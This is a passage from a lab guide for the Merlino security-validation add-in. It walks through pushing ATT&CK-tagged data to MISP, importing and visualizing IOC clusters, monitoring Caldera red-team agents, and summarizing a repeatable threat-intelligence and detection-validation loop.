   - Event name (from the Catalogue Name column)
   - ATT&CK technique tags (from the TCodes column)
   - Description and source information
   - Attributes mapped from Catalogue data
4. A progress bar shows the push progress.
5. When complete, a notification confirms how many events were created.


*Figure 310: Pushing Catalogue data to MISP using the Catalogue to MISP button. Each Catalogue entry becomes a MISP event with ATT&CK technique tags and associated attributes.*

### Why Push to MISP?

Pushing data to MISP creates powerful relationships:
- **ATT&CK technique correlation** -- MISP can correlate your techniques with known threat actors, campaigns, and IOCs from the broader threat intelligence community.
- **IOC enrichment** -- MISP feeds can add IP addresses, domains, file hashes, and other indicators related to the techniques you are testing.
- **Sharing** -- If your MISP instance participates in sharing communities, your validated threat intelligence becomes part of a broader defensive ecosystem.
- **Historical tracking** -- MISP events provide a timestamped audit trail of your threat intelligence and Red Team activities.

---

## 13. Step 12 -- Import IOC Data from MISP

After pushing data to MISP (and allowing time for MISP to correlate it with existing feeds and events), you can pull enriched IOC data back into Merlino.

### Import All Events from MISP

1. In the IOC taskpane, click the **Import from MISP** button.
2. Merlino connects to your MISP instance, retrieves events, and writes the data to the **IOC** sheet.
3. The IOC sheet is created (if it does not exist) with 16 columns including: Pick, CrossPick, TCodes, Name, Source, Description, IPs, Domains, Hashes, CVEs, Threat Actors, Campaigns, Risk Score, MISP Event ID, MISP Event Link, Last Updated, and Related Events.
4. Each row in the IOC table represents a MISP event with its associated indicators.

### Import by Pick Criteria (Filtered Import)

If you only want to import MISP data that is relevant to your current threat profile (the rows marked `Pick=TRUE` in your workbook), use the filtered import:

1. Click the **Preview Criteria** button first. This scans your workbook for all `Pick=TRUE` rows and displays the matching criteria:
   - TCodes from picked rows
   - Threat Actors and Groups
   - Campaigns
   - CVEs
   - Software and Malware
2. Review the criteria summary to confirm it matches your expectations.
3. Click the **Import by Pick Criteria** button.
4. Merlino queries MISP using only the criteria extracted from your picked rows, filtering out irrelevant events.
5. The result is a focused IOC dataset that directly relates to your threat profile.


*Figure 311: The Import by Pick Criteria feature extracts TCodes, threat actors, campaigns, and CVEs from your Pick=TRUE rows and uses them to filter the MISP import. This ensures you only receive IOC data relevant to your threat profile.*

---

## 14. Step 13 -- Visualize IOC Clusters

The final analytical step is to visualize the relationships between your IOC data and your Merlino intelligence using the IOC Cluster Graph.

### Generate the Cluster Visualization

1. In the IOC taskpane, scroll down to the visualization section.
2. Click the **Visualize IOC Clusters** button.
3. Merlino reads the IOC table and generates an interactive cluster graph that shows:
   - **MISP Events** (gray nodes) -- the events imported from MISP.
   - **Threat Actors** (red nodes) -- threat actors extracted from the events.
   - **Campaigns** (orange nodes) -- campaigns associated with the events.
   - **IP Addresses** (purple nodes) -- IP indicators from MISP attributes.
   - **Domains** (blue nodes) -- domain indicators.
   - **File Hashes** (green nodes) -- hash indicators (MD5, SHA-1, SHA-256).
   - **CVEs** (pink nodes) -- vulnerabilities linked to the events.

4. The graph is interactive:
   - **Drag** nodes to reposition them.
   - **Hover** over nodes to see details.
   - **Click** on a node to highlight its connections.
   - Use the legend to filter IOC types on and off.


*Figure 312: The IOC Cluster Graph visualizes relationships between MISP events and their associated indicators. Red nodes are threat actors, purple nodes are IP addresses, blue nodes are domains, and gray nodes are MISP events. Lines show which indicators appear in which events.*

### What to Look For

- **Clusters** -- Groups of nodes that are heavily interconnected indicate IOCs that appear together across multiple events. These are likely associated with the same threat actor or campaign.
- **Bridge Nodes** -- IOC nodes that connect two otherwise separate clusters are especially interesting -- they may indicate shared infrastructure between different threat groups.
- **High-Count Nodes** -- IOCs that appear in many events (large nodes) deserve priority investigation.
- **Your ATT&CK Techniques** -- The TCodes associated with each event connect the IOC data back to your Merlino Catalogue and threat profile, closing the analytical loop.

---

## 15. Step 14 -- Explore the Agents Dashboard

While the Tests & Operations taskpane focuses on operations and abilities, the **Agents** taskpane provides a dedicated view into the agents that execute those operations. This is where you monitor your Red Team infrastructure -- the machines you control, their status, and their activity across the entire campaign.

### Open the Agents Taskpane

1. Click the **Agents** button in the Merlino ribbon (Operations group).
2. The Agents taskpane opens and immediately queries Morgana Arsenal for the current agent inventory.

### Agents Overview

The first view you see is the **Agents Overview** -- a summary panel showing all agents currently registered in Morgana Arsenal. For each agent, the overview displays:

- **Hostname** -- the machine name where the agent is running.
- **Platform** -- the operating system (Windows, Linux, Darwin).
- **Architecture** -- the CPU architecture (x86_64, ARM, etc.).
- **Agent Group** -- the group assignment (e.g., `red`) that determines which operations target this agent.
- **Contact** -- the communication protocol the agent uses to reach the Caldera server (HTTP, TCP, UDP).
- **Status** -- whether the agent is **alive** (actively communicating) or **dead** (no heartbeat received within the timeout window).
- **Last Seen** -- the timestamp of the last heartbeat, so you can tell at a glance how recently each agent checked in.

This overview is essential for operational awareness: before launching new operations, you need to confirm that your agents are alive and reachable. If an agent shows as dead, the target machine may have rebooted, the agent process may have been terminated by an EDR, or a network issue may be preventing communication.


*Figure 323: The Agents Overview in the Agents taskpane. Each agent is listed with its hostname, platform, architecture, group, contact method, and live status. Use this view to confirm agent availability before running operations.*

### Agents Relationship Graph and Timeline

Below the overview, the Agents taskpane provides an **interactive force-directed graph** that visualizes the relationships between agents and their activities. The graph contains three types of nodes:

- **Agent nodes** (center) -- represent each registered agent, labeled with the hostname.
- **Operation nodes** -- represent operations that the agent participated in, connected by edges to the agent that executed them.
- **Ability nodes** -- represent individual abilities (attack techniques) executed by the agent, connected to the operation they belong to.

Edges encode the execution flow: Agent --> Operation --> Ability. The thickness and color of each edge can indicate the execution status (success, failure, or running), giving you an immediate visual understanding of how each agent contributed to your Red Team campaign.

You can **drag** nodes to rearrange the layout, **hover** over a node to highlight its connections, and **click** on a node to see details such as the operation name, ability description, and execution status.

Below the graph, a **timeline** shows agent activity over time -- when each agent first connected, when it executed abilities, and when it last reported in. The timeline helps you reconstruct the chronological sequence of events during a multi-agent, multi-operation campaign.


*Figure 324: The Agents Relationship Graph and Timeline. Agent nodes connect to the operations they executed and the individual abilities within those operations. The timeline below shows agent activity chronologically. Use this view to understand how your Red Team infrastructure participated in the campaign.*

### When to Use the Agents Dashboard

- **Before running operations** -- verify that all target agents are alive and in the correct group.
- **During active operations** -- monitor agent participation and spot disconnections in real-time.
- **After operations complete** -- review the graph to understand which agents tested which techniques, and use the timeline to reconstruct the sequence of events for reporting.
- **Troubleshooting** -- if an operation produced unexpected results, the Agents dashboard helps you determine whether the issue was with a specific agent (e.g., dead agent, wrong group) rather than with the operation definition itself.

---

## 16. The Complete Security Validation Loop

At the end of Lab 03, step back and see what you have built across all three labs:

```
LAB 01: THREAT INTELLIGENCE
  |
  |   Who attacks organizations like ours?
  |   Which ATT&CK techniques do they use?
  |   --> Threat Profile (6 APT groups, 200+ techniques)
  |
  v
LAB 02: DETECTION MEASUREMENT
  |
  |   How much of that threat landscape do our Sentinel rules cover?
  |   Where are the detection gaps?
  |   --> Detection Coverage Map (41 rules vs. threat profile)
  |
  v
LAB 03: RED TEAM VALIDATION
  |
  |   Can we actually execute those techniques against our infrastructure?
  |   Does our detection work when the attack happens for real?
  |   --> Execution Results (abilities tested, success/failure data)
  |
  v
MISP: THREAT INTELLIGENCE SHARING
      |
      |   What IOCs are associated with our threat profile?
      |   What relationships exist between our data and the broader community?
      |   --> IOC Correlation (IPs, domains, hashes, CVEs linked to techniques)
```

This is not a one-time exercise. The loop is designed to be repeated:

1. **New threat intelligence** emerges (a new APT group targets your industry) --> Repeat Lab 01 to update the threat profile.
2. **New Sentinel rules** are deployed --> Repeat Lab 02 to measure improved coverage.
3. **New Caldera abilities** are available --> Repeat Lab 03 to validate against the latest attack implementations.
4. **MISP feeds** update with fresh IOCs --> Re-import and re-visualize to catch new relationships.

Each iteration tightens the security posture. Each iteration produces measurable, evidence-based data. Each iteration is documented in the Merlino workbook -- a living, auditable artifact.

---

## 17. Summary and Next Steps

### What You Accomplished in This Lab

| Step | What You Did | What It Produced |
|---|---|---|
| Prepared Tests sheet | Cleared existing data, preserved header | A clean Tests table ready for synchronization |
| Synchronized Catalogue | Transferred all Catalogue entries to Tests | Test records for every technique in your profile |
| Installed Morgana Arsenal | Set up Caldera + Morgana plugin (source or OVA) | A running Red Team server with MISP integration |
| Configured connections | Entered Morgana and MISP details in Settings | Verified green-status connections to both services |
| Deployed agent | Installed a Caldera agent on a Windows target | A connected agent ready to receive and execute abilities |
| First sync | Pushed test definitions to Morgana Arsenal | Adversaries and operations created in Caldera |
| Ran operations | Executed attack techniques against the target | Ability execution results (success/failure per technique) |
| Post-execution sync | Pulled results back into Merlino | Updated Tests table with status, output, and metrics |
| Pushed to MISP | Exported Catalogue data to MISP events | Correlated threat intelligence in MISP |
| Imported from MISP | Pulled enriched IOC data into IOC sheet | IP, domain, hash, and CVE indicators linked to your profile |
| Visualized IOCs | Generated IOC Cluster Graph | Interactive visualization of threat intelligence relationships |

### Key Takeaways

1. **Detection rules are hypotheses. Red Team operations are experiments.** You cannot know if your defenses work until you test them. Lab 02 measured what you have on paper; Lab 03 validated what works in practice.
2. **More rows in the Tests table is a good thing.** Each row represents a specific ability -- a concrete action that was attempted against your target. Granularity is precision.
3. **Failed abilities (status -1) are not failures -- they are evidence that your defenses work.** An ability that was blocked by your EDR means that specific technique implementation is covered. Document it. Celebrate it.
4. **The bidirectional Morgana Arsenal sync is designed for iteration.** Run operations, sync results, run more operations, sync again. Each cycle adds more data to your workbook.
5. **MISP integration transforms isolated Red Team data into shareable intelligence.** By pushing to MISP and pulling IOCs back, you connect your internal validation program to the broader threat intelligence ecosystem.

### Resources

- **Morgana Arsenal:** [https://github.com/x3m-ai/morgana-arsenal](https://github.com/x3m-ai/morgana-arsenal) -- Installation, configuration, and plugin documentation.
- **MITRE Caldera:** [https://github.com/mitre/caldera](https://github.com/mitre/caldera) -- The upstream project that powers Morgana Arsenal. Comprehensive documentation on agents, abilities, adversaries, and operations.
- **MITRE Caldera YouTube Channel:** [https://www.youtube.com/@MITRECalderaOfficial](https://www.youtube.com/@MITRECalderaOfficial) -- Video tutorials, demonstrations, and deep dives into Caldera capabilities.
- **MISP Project:** [https://www.misp-project.org](https://www.misp-project.org) -- The open-source threat intelligence platform documentation.

### What's Next

You have now completed all three Merlino laboratories. Your workbook contains:

- A threat profile based on real threat groups and their ATT&CK techniques
- A detection coverage map showing which techniques your Sentinel rules cover
- Red Team validation results showing which techniques were actually tested and whether they succeeded or were blocked
- IOC data from MISP correlating indicators of compromise with your threat profile

**From here, the workflow is yours.** Some recommended next steps:

- **Run the AI Assistant** (AI button in the ribbon) to generate automated analysis and recommendations based on your combined data.
- **Generate a Report** (Reports button) to produce a comprehensive HTML report covering all three layers of analysis.
- **Share the workbook** with your SOC team, management, or auditors as evidence of your security validation program.
- **Schedule regular cycles** -- update threat intelligence quarterly, re-measure Sentinel coverage after rule changes, and re-run Red Team operations as new abilities are released.

---

**End of Lab 03**

*For additional help, use Anacleto within any taskpane or visit the [Camelot community](https://github.com/x3m-ai/Camelot/discussions).*
